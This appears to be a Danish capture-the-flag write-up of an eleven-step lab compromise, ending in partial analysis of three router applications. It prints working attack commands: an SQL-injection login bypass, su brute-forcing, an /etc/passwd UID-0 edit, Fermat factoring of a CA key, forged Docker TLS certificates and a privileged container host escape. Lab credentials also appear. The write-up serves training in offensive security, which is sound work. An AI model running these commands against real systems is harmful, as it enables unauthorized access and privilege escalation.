# Øvelsesoperation Writeup
---

## Resumé

Dette writeup dokumenterer kompromittering af et layered og segmenteret CTF miljø. Opgaven krævede, at en bred vifte af offensive sikkerhedsteknikker blev kædet sammen på tværs af 11 trin. Angrebet tog udgangspunkt i en unauthenticated position mod en webtjeneste. Herfra blev adgang opnået trin for trin via SQL injection, reverse engineering af et custom PAM-modul, RSA cryptoanalysis, Docker container escape, VXLAN network pivoting og exploitation af en custom password generator baseret på en Linear Congruential Generator (LCG).

Jeg nåede ikke at færdiggøre opgaven i sin helhed. I det sidste afsnit identificerede jeg angrebsflader på tre applikationer som jeg ikke nåede at udnytte fuldt ud: out-of-bounds sårbarhed i MIDI synthesizeren `saas`, en potentiel RCE mulighed i den MIPS emulerede `noted` applikation som jeg påbegyndte analyse af via Ghidra, samt en custom-patched V8 JavaScript engine i `wat` der indikerer en bevidst indsat sårbarhed i selve JavaScript fortolkeren. Jeg ser mulige veje frem mod exploitation af alle tre, og det er arbejde jeg vil fortsætte med og lave en endelig Writeup på denne øvelsesoperation.

> **Mål:** `root@printserver`

---

## Demonstrerede Kompetencer

### Reconnaissance
- Port scanning
- Vulnerability scanning
- Web reconnaissance
- Infrastructure mapping
- Network topology awareness

### Web Exploitation
- SQL injection
- Authentication bypass
- Credential harvesting
- CSRF analyse
- Directory enumeration

### Binær fil analysis & reverse engineering
- PAM-module analyse
- ELF binær fil analyse

### Cryptography
- RSA kryptoanalyse
- Fermat's factorization
- LCG reverse engineering
- Yescrypt hash cracking
- TLS certificate forfalskning
- OpenSSL

### Privilege Escalation & Lateral Movement
- SUID binary enumeration
- Docker container escape
- /etc/passwd manipulation
- Lateral movement via brute-force
- Post-exploitation enumeration

### Network & Pivoting
- VXLAN tunneling
- SSH ProxyJump
- BPF proxy analyse
- Multi-hop pivoting
- Docker TLS daemon exploitation

### Scripting & Automation
- Python scripting
- Algoritme optimering fra O(n²) til O(n)
- Parallelization
- Disk I/O buffering
- Wordlist generation
- Password cracking scripting

### Protokol Analyse
- Systemd-nspawn container analyse
- Docker daemon analyse

---

## Indholdsfortegnelse

1. [Trin 1: Reconnaissance](#trin-1-reconnaissance)
2. [Trin 2: Web Exploitation (SQL Injection)](#trin-2-web-exploitation-sql-injection)
3. [Trin 3: SSH adgang](#trin-3-ssh-adgang)
4. [Trin 4: Analyse af custom PAM-modul](#trin-4-analyse-af-custom-pam-modul)
5. [Trin 5: Lateral movement til pamela brugeren](#trin-5-lateral-movement-til-pamela-brugeren)
6. [Trin 6: Privilege Escalation i container](#trin-6-privilege-escalation-i-container)
7. [Trin 7: RSA kryptoanalyse — Fermat's Factorization](#trin-7-rsa-kryptoanalyse--fermats-factorization)
8. [Trin 8: Forfalskede Docker TLS certifikater og host escape](#trin-8-forfalskede-docker-tls-certifikater-og-host-escape)
9. [Trin 9: Network pivoting via VXLAN og SSH ProxyJump](#trin-9-network-pivoting-via-vxlan-og-ssh-proxyjump)
10. [Trin 10: Analyse af LCG password generator](#trin-10-analyse-af-lcg-password-generator)
11. [Trin 11: Printserver adgang og yderligere discovery](#trin-11-printserver-adgang-og-yderligere-discovery)
12. [WIP: Analyse af angrebsflader på router applikationer](#wip-analyse-af-angrebsflader-på-router-applikationer)
13. [Læringspunkter](#læringspunkter)

---

## Trin 1: Reconnaissance

### Portscanning

Den indledende reconnaissance startede med et fuldt nmap portscan for at kortlægge eksponerede tjenester på målet.

```bash
nmap -sV 192.168.78.128
```

```
PORT      STATE  SERVICE
22/tcp    open   SSH
80/tcp    open   HTTP
2200/tcp  open   SSH 2.0
2222/tcp  open   SSH 2.0
```

Et opfølgende målrettet scan bekræftede, at de usædvanlige porte 2200 og 2222 begge præsenterede SSH bannere, hvilket tydede på alternative SSH endpoints eller Docker-containerporte. Dog ikke nogen CUPS[^1] eller andre printer porte åbne.

### Sårbarhedsscanning

```bash
sudo nmap --script vuln 192.168.78.128 -oN vuln_scan.txt
```

Et scriptbaseret vulnerability scan[^2] blev udført mod målet og afslørede flere interessante fund på port 80. Nmap identificerede en potentiel CSRF sårbarhed i login-formularen, der poster til `/secrets`, samt eksistensen af `/robots.txt`. Derudover blev webserveren vurderet som sandsynligvis sårbar over for et Slowloris DoS-angreb[^3] (CVE-2007-6750[^4]). Hverken DOM-based XSS eller stored XSS blev fundet.

### Curl

Jeg efterfulgte med curl:

```bash
curl 192.168.78.128
```

Som gav HTTP kildekoden. Her er et snippet af kommentaren:

```html
<!-- TODO: Check for vulnerabilities before deploying!          -->
<!-- I ran this through our scanner and uh... 'secure' is       -->
<!-- doing some HEAVY lifting! I counted at least 2 potential   -->
<!-- vulns before my coffee got cold. - pamela                  -->
<!-- P.S. If you're reading this in a breach report... I TOLD   -->
<!-- YOU SO                                                      -->
```

**Kildekodens kommentar** afslører:

- Brugernavnet `pamela` — en bruger der bliver et direkte mål senere i attack chain.
- Mindst 2 sårbarheder eksisterer ifølge pamela selv.

**Selve HTML-koden** afslører:

- Login-formularen poster til `/secrets` via POST. Et direkte mål for SQL injection og bruteforce. Dette bekræfter nmaps tidligere fund.
- Ingen CSRF-token i formularen. Bekræfter nmaps tidligere fund.
- Ingen rate-limiting eller captcha er synlig i koden.

Herefter tjekkede jeg hvad der kørte på port 2200 og 2222 med nc. Begge kørte SSH 2.0:

```bash
nc 192.168.78.128 2200
nc 192.168.78.128 2222
```



---

## Trin 2: Web Exploitation (SQL Injection)

### Web Reconnaissance

Et efterfølgende gobuster[^5] scan bekræftede endpoint med en 401 statuskode, men tilføjede ingen nye oplysninger ud over hvad kildekoden allerede havde afsløret.

```bash
gobuster dir -u http://192.168.78.128 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak,old,zip
```

### Authentication Bypass via SQL Injection

Login-formularen sendte credentials til `/secrets` via en POST request. Test af en klassisk SQL payload omgik autentificeringen:

```bash
curl -X POST http://192.168.78.128/secrets -d "username=admin' OR '1'='1&password=test"
```

SQL injektionen lykkedes og bekræftede, at login-formularen ikke anvendte prepared statements. Dette gav adgang til Secure Vaults indhold og leverede de credentials, der var nødvendige til næste trin.

```
Username: user
Password: hunter2
```

---

## Trin 3: SSH adgang

Med de credentials, der blev hentet fra Secure Vault, blev SSH adgang oprettet til målet. Standardporten 22 blev anvendt, da SSH ikke virkede mod porte 2200/2222.

```bash
ssh user@192.168.78.128
```

Post login enumeration bekræftede at den opnåede bruger var en standard unprivileged bruger uden sudo rettigheder, og at brugeren `pamela` eksisterede på systemet:





---

## Trin 4: Analyse af custom PAM-modul

### Post exploitation enumeration

En systematisk post exploitation blev gennemført for at identificere privilege escalation:

- SUID binary enumeration
- Cron job analyse
- Søgning efter skrivbare filer og mapper
- Inspektion af kørende processer
- Kernel version mapping
- Backup fil søgning
- Bash_history tjek
- SSH key hunting

Bemærkelsesværdige fund inkluderede to SUID binaries (`mount` og `passwd`), som ifølge GTFOBins[^6] er privilege escalation muligheder, men begge viste sig uanvendelige i denne konfiguration. Cron jobs eksisterede men var ikke skrivbare. Ingen SSH nøgler blev fundet.

### Discovery af custom PAM-modul

Med kendskab til brugernavnet `pamela` fra kildekoden, og det faktum at `su pamela` krævede en adgangskode, var det naturligt at undersøge om der eksisterede et custom PAM-modul med hendes navn. En målrettet søgning bekræftede mistanken:

```bash
find / -name "*pam_pamela*" 2>/dev/null
```

Dette returnerede stien til et non-standard PAM-modul:

```
/usr/lib/x86_64-linux-gnu/security/pam_pamela.so
```

Læsning af `pam_pamela.so` med `cat` gjorde det muligt at udtrække læsbare strings fra ELF-binæren. Trods det rodede binære output var error message strings fuldt læselige og afslørede en komplet liste over adgangskodekrav for `pamela`:

```
Your password must be at most 20 characters long
Your password must contain an uppercase character
Your password must contain a lowercase character
Your password must contain a digit
Your password must contain a special character
Your password must contain a roman numeral
Sum of digits must be a cube
Your password must have at least N consecutive letters
Number of one bits must be >= N
Number of one bits modulo N must be zero
Your password must be a palindrome
```

---

## Trin 5: Lateral movement til pamela brugeren

### Python password generator

For at opfylde alle elleve krav lavede jeg et Python-script:



Scriptet genererede 60 gyldige kandidat passwords. Et eksempel på outputtet:

```
FOUND: ~tuvwx0V0xwvut~  (bits=68, sum=0)
FOUND: ~mnopq4V4qponm~  (bits=68, sum=8)
FOUND: ~vwxyZ0V0Zyxwv~  (bits=68, sum=0)
... (60 total valid passwords generated)
```

### Automatiseret testing med suBF.sh

Med en liste på 60 gyldige passwords genereret ud fra PAM-modulets krav blev `suBF.sh`[^7] brugt til automatisk at afprøve kandidaterne med `su pamela`. Scriptet blev tilpasset til at acceptere den custom wordliste som jeg genererede i forrige trin.

```bash
chmod +x suBF.sh
./suBF.sh -u pamela -w password_list.txt -t 0.5 -s 0.003
```



Outputtet viser at mange af de genererede passwords ikke virkede. For eksempel fejlede loginforsøg med `~tuvwx0V0xwvut~`, mens `~mnopq4V4qponm~` virkede.

En gennemgang af scriptet afslørede at PAM-modulet tilsyneladende ikke accepterer 0 som en gyldig "perfect cube". Kravet burde have specificeret "positiv perfect cube", da 0 = 0³ matematisk set er korrekt.

> **Pamelas password:** `~mnopq4V4qponm~`

---

## Trin 6: Privilege Escalation i container

Login som `pamela` afslørede et miljø med flere Docker containers. Ved at identificere en tilgængelig Docker daemon blev `docker exec` brugt til at opnå en root shell inde i containeren. Ændring af `/etc/passwd` til at sætte pamelas UID/GID til 0 gav persistent root adgang inde i containeren.

```bash
docker exec -it 1ee55c34929d bash  # root shell inside container
cp /etc/passwd /etc/passwd.bak
sed -i 's/^pamela:x:1001:1001:/pamela:x:0:0:/' /etc/passwd
```

---

## Trin 7: RSA kryptoanalyse — Fermat's Factorization

Docker daemonen på host var sikret med TLS mutual authentication[^8] (port 2376). For at forfalske et gyldigt klientcertifikat var det nødvendigt at rekonstruere CA's private key. Inspektion afslørede CA's RSA public key (`N`) i systemet. Primtallene `p` og `q`, der blev brugt til at generere `N`, var farligt tæt på hinanden — en svaghed der gør `N` sårbar over for Fermat's factorization[^9], som kører i næsten konstant tid når `p ≈ q`.

Jeg lavede et Python script til at faktorisere den 2048-bit modulus:

```python
def fermat(n):
    a = math.isqrt(n) + 1
    while True:
        b2 = a*a - n
        if is_square(b2):
            b = math.isqrt(b2)
            return a + b, a - b
        a += 1

p, q = fermat(n)
# Result: p - q = 2710  (primes were extremely close)
```

Ovenstående script blev kørt igennem på få sekunder og bekræftede sårbarheden. Primtallene `p` og `q` var ekstremt tætte på hinanden (p − q = 2710). Med `p` og `q` kendt kunne jeg med hjælp fra AI rekonstruere den fulde RSA private key:



---

## Trin 8: Forfalskede Docker TLS certifikater og host escape

Med den rekonstruerede CA private key kunne jeg nu udstede certifikater som Docker daemon'en ville stole på. Første skridt var at konvertere nøglen fra `ASN.1/DER` format til `PEM` format som OpenSSL kan arbejde med:

```bash
openssl asn1parse -genconf key_in_text.txt -out key_ca.der
openssl rsa -inform DER -in key_ca.der -out key_ca.pem
```

Herefter blev et nyt client certificate genereret og signed med CA private key'en. Docker daemon'en ville nu betragte dette certifikat som legitimt:

```bash
openssl genrsa -out key.pem 2048
openssl req -subj '/CN=client' -new -key key.pem -out client.csr
openssl x509 -req -days 365 -sha256 -in client.csr -CA ca.pem -CAkey key_ca.pem -CAcreateserial -out cert.pem
```

Med et gyldigt certifikat kunne jeg autentificere direkte mod Docker daemon'en på host maskinen (172.17.0.1:2376) og starte en privilegeret container med hele host filsystemet bind-mountet. `chroot` ind i `/host` gav fuld adgang til den underliggende host:

```bash
docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H \
172.17.0.1:2376 run -it --rm --privileged --net=host -v /:/host --entrypoint chroot ssh-server /host
```

---

## Trin 9: Network pivoting via VXLAN og SSH ProxyJump

### Opsætning af VXLAN tunnel

På `hostcontainer` blev et VXLAN overlay netværk opdaget, der forbandt til et internt segment (10.0.42.0/24). En lokal VXLAN interface blev oprettet for at tilslutte sig netværket og tildele en IP-adresse inden for segmentet:

```bash
ip link add vxlan0 type vxlan id 42 remote 192.168.235.65 dev host0 dstport 4789
ip link set vxlan0 up
ip addr add 10.0.42.2/24 dev vxlan0
```

### BPF SSH proxy — "baby-passes-filters"

En binær fil med navnet `baby-passes-filters` (et ordspil på BPF, Berkeley Packet Filter[^10]) var at finde på `hostcontainer`. Da jeg eskalerede til root i den oprindelige container var der et hint ved navn `chat.log`. Her blev "bpf service" og "vxlan" omtalt, så `baby-passes-filters` filen var værd at undersøge nærmere. `ss` outputtet viste at `baby-passes-filters` lytter på port 666 (Doom port[^11]).



Ved at undersøge de kørende tjenester og `/root/.ssh/ssh-config` stod det klart, at denne binære fungerede som en BPF baseret SSH proxy, der opsnappede og videresendte forbindelser til den interne maskine på port 2222.

Config filen afslørede et alias `hostcontainer` med et ProxyJump, der pegede på denne proxy. Problemet var at `IdentityFile` pegede på `hostcontainer.id_ed25519` — en relative path der ikke eksisterede. Den korrekte nøgle lå på `/root/.ssh/id_ed25519`. En simpel patch løste problemet:

```bash
sed -i 's|IdentityFile hostcontainer.id_ed25519|IdentityFile /root/.ssh/id_ed25519|g' /root/.ssh/ssh-config

ssh -F /root/.ssh/ssh-config hostcontainer
```

Ovenstående kommandoer resulterede i en vellykket forbindelse til `root@hostcontainer` via `baby-passes-filters` proxyen.

Herfra tjekkede jeg `ssh-config`, `.bash_history` og `git` mappen med:

```bash
ssh -F /root/.ssh/ssh-config hostcontainer "env; cat /root/.bash_history"
```

---

## Trin 10: Analyse af LCG password generator

### Discovery af router shadow filen

Fra `hostcontainer` kunne jeg aflæse `router-shadow.bak`:

```bash
ssh -F /root/.ssh/ssh-config hostcontainer "cat /root/git/pwgen/router-shadow.bak"
```

Hashen `root:$y$j9T$...` anvender yescrypt[^12] (`$y$`). Blind cracking med john[^13] eller hashcat[^14] uden GPU ville være for langsomt til at være praktisk.

Jeg havde adgang til `passwdGen.py` scriptet og dets LCG (Linear Congruential Generator) parametre. Mit første gæt var at bruge `mtime` som Unix-timestamp som `lcgSeed`.



Timestamp tilgangen gav ikke det korrekte password, så jeg måtte falde tilbage på at generere en komplet wordlist og afprøve alle mulige kandidater.

### LCG reverse engineering

LCG parametrene blev udtrukket fra `passwdGen.py`:



Da `mtime` tilgangen ikke gav det korrekte password direkte, genererede jeg i stedet alle mulige passwords fra seed 0 til 2^24 (16,7 millioner kandidater), en øvre grænse valgt til at dække `lcgSeed = 0xfedd15` (16702741).

Den første version af wordlist generatoren havde en tidskompleksitet på O(n²)[^15]. For hvert password genberegnede den hele LCG sekvensen fra start. For password nr. 16.000.000 betød det 16 millioner iterationer bare for ét enkelt password. Med 16,7 millioner passwords i alt ville scriptet i teorien kræve over 140 milliarder iterationer. Det ville tage alt for lang tid at køre. Scriptet blev optimeret med hjælp fra AI på tre områder:

1. **Fra O(n²) til O(n):** Det oprindelige script genberegnede hele LCG sekvensen fra start for hvert enkelt password. Den optimerede version beregner i stedet sekvensen incrementally, så hvert password tager et enkelt skridt videre fra det forrige frem for at starte forfra (`jump_ahead()`).

2. **Parallelisering:** Udnyttelse af alle CPU-kerner (`mp.cpu_count()`).

3. **Buffering:** Data akkumuleres i en 1MB buffer i RAM (`buffering=1024*1024`) og skrives til disk i chunks. Dette reducerer antallet af disk I/O operationer fra ~16,7 millioner individuelle writes til et par tusinde, hvilket eliminerer I/O bottleneck markant.

Den optimerede version genererede en komplet wordlist med ~16,7 millioner passwords på få minutter. Bagefter lavede jeg et script `crack_it.py` som matchede hvert password mod yescrypt-hashen:



Det optimerede script:



---

## Trin 11: Printserver adgang og yderligere discovery

### VPN credentials

Routeren havde kildekode til containerne: `noted`, `saas` og `wat`. Derudover havde den et shell script ved navn `/root/git/vpn/connect.sh` som indeholdte hardcoded VPN credentials:

```bash
cat /root/git/vpn/connect.sh
  → sshpass -p "smirk_september_procedure_washer" ssh -p 2200 vpn@printserver
```

Disse blev brugt til at SSH'e ind på printserveren (10.0.42.2, port 2200) som `vpn` brugeren.

### Printserver infrastruktur discovery

Inspektion af kørende processer på `printserveren` afslørede et komplekst multi-service miljø:

- En QEMU-emuleret MIPS[^16] VM, der kørte `noted` applikationen, med port 7000 forwarding til host.
- En Docker daemon med TLS på port 2376, en kopi af den container infrastruktur jeg så tidligere.
- Flere systemd-nspawn-containere[^17]: `hostcontainer`, `noted`, `router`, `saas` og `wat`.
- En `saas` applikation implementeret som en specialbygget MIDI synthesizer. Applikationen kommunikerer via Apple MIDI (RTP-MIDI)[^18] protokollen på UDP port 5004.

`sudo -l` afslørede at `vpn@printserver` havde sudo rettigheder til `vpn.py` samt til at genstarte `noted`, `wat` og `saas` containerne. Da kildekoden til disse applikationer lå på `root@router`, opstod idéen om at modificere kildekoden som `root@router` og derefter trigge en genstart via `vpn@printserver`, og derved få containeren til at køre modificeret kode.

---

## WIP: Analyse af angrebsflader på router applikationer

### saas

`saas` applikationens kildekode, `main.c` og `audio.c`, blev fundet på routeren. En MIDI synthesizer der kommunikerer via Apple MIDI (RTP-MIDI) protokollen på UDP port 5004. Apple MIDI bruger en two-step handshake til at etablere sessions.

Potentiel sårbarhed kunne ligge i hvordan MIDI-kanalnumre håndteres i koden. MIDI har 16 kanaler (0-15), men hvis koden ikke validerer at kanalnummeret er inden for dette interval, kan et kanalnummer som f.eks. 255 bruges til at tilgå memory uden for det tilladte array. Et classic out-of-bounds array access. Dette kunne bruges til at overskrive function pointers i `notes_played` arrayet der ligger ved siden af i memory, og derved omdirigere programflowet til arbitrary code execution.

```
# Session handshake succeeded
ffff4f4b = \xff\xffOK, peer name: 'saas'
```

### noted

`noted` kører som en fuldt emuleret MIPS-processor via QEMU med port 7000 forwarded til host. Jeg forsøgte at sende unintended inputs direkte via `nc 10.0.67.199 7000` for at trigge en fejl, men uden held.

For at analysere koden grundigt er det nødvendigt at udpakke `rootfs.squashfs` og reverse engineere MIPS binæren. Da routeren ikke har internet forbindelse kunne jeg ikke hente `unsquashfs` direkte på maskinen. Jeg valgte derfor at overføre filen til min Kali maskine via SCP:

```bash
scp -J user@192.168.78.128 root@10.0.42.1:/root/git/noted/rootfs.squashfs /tmp/
```

Efter at have udpakket filsystemet påbegyndte jeg analyse af binæren i Ghidra[^19]. Baseret på applikationens adfærd vurderer jeg at remote code execution sandsynligvis er muligt, men analysen er endnu ikke afsluttet.

### wat

En Node.js webapp med en custom patched V8 JavaScript engine (`v8.patch`). V8 er den JavaScript engine der driver Chrome og Node.js. En custom patch indikerer at denne engine er modificeret. Jeg gætter på at der er indsat en bevidst sårbarhed i JavaScript fortolkeren selv, som kan udnyttes via specifikt udformet JavaScript-kode til at opnå arbitrary code execution.

---

## Læringspunkter

### Undgå at genimplementere kendte løsninger

Jeg udviklede mit eget script til Fermat's factorization, men et veletableret værktøj som RsaCtfTool[^20] håndterer dette og mange andre RSA angreb automatisk. Grundigere research inden implementering kunne have sparet betydelig tid.

### Manglende dokumentation undervejs

Fokus på at løse opgaven gik ud over kvaliteten af mine løbende noter. Det gjorde writeuppet sværere at rekonstruere bagefter. Det gælder særligt dead ends og mislykkede forsøg, som er værdifulde at dokumentere fordi de viser tankeprocessen og forhindrer at man forfølger den samme blindgyde igen. Den løbende dokumentation skal være tilstrækkelig detaljeret til at writeuppet kan skrives direkte fra noterne uden at skulle rekonstruere trin eller genopfriske hukommelsen.

### Bredde før dybde

Jeg forfulgte det første lovende clue i dybden frem for at kortlægge alle tilgængelige muligheder først. En bredere indledende analyse af alle tilgængelige ressourcer og angrebsvinkler for hvert trin ville have givet et bedre beslutningsgrundlag og potentielt sparet tid ved at pege mod den rigtige løsning hurtigere.

### Tidskompleksitet har praktiske konsekvenser

O(n²) vs O(n) er ikke kun akademisk. I dette tilfælde var det forskellen mellem et script der ville kræve over 140 milliarder iterationer og et der færdiggjorde opgaven på få minutter. Det er værd at overveje algoritmisk effektivitet inden man sætter et script igang på millioner af iterationer.

### Vurder hvornår automatisering er det værd

`suBF.sh` til 60 passwords var overkill. Manuel afprøvning havde været hurtigere. En god påmindelse om at vurdere hvornår automatisering faktisk sparer tid.

---

[^1]: https://en.wikipedia.org/wiki/CUPS
[^2]: https://nmap.org/nsedoc/categories/vuln.html
[^3]: https://en.wikipedia.org/wiki/Slowloris_(cyber_attack)
[^4]: https://nvd.nist.gov/vuln/detail/cve-2007-6750
[^5]: https://www.kali.org/tools/gobuster/
[^6]: https://gtfobins.github.io/
[^7]: https://github.com/carlospolop/su-bruteforce/blob/master/suBF.sh
[^8]: https://www.cloudflare.com/learning/access-management/what-is-mutual-tls/
[^9]: https://en.wikipedia.org/wiki/Fermat%27s_factorization_method
[^10]: https://en.wikipedia.org/wiki/Berkeley_Packet_Filter
[^11]: https://www.pentestpad.com/port-exploit/port-666-doom-doom-game-protocol
[^12]: https://en.wikipedia.org/wiki/Yescrypt
[^13]: https://www.openwall.com/john/
[^14]: https://hashcat.net/hashcat/
[^15]: https://en.wikipedia.org/wiki/Big_O_notation#Orders_of_common_functions
[^16]: https://www.qemu.org/docs/master/system/target-mips.html
[^17]: https://www.freedesktop.org/software/systemd/man/latest/systemd-nspawn.html
[^18]: https://developer.apple.com/library/archive/documentation/Audio/Conceptual/MIDINetworkDriverProtocol/MIDI/MIDI.html
[^19]: http://ghidra.net/
[^20]: https://github.com/RsaCtfTool/RsaCtfTool
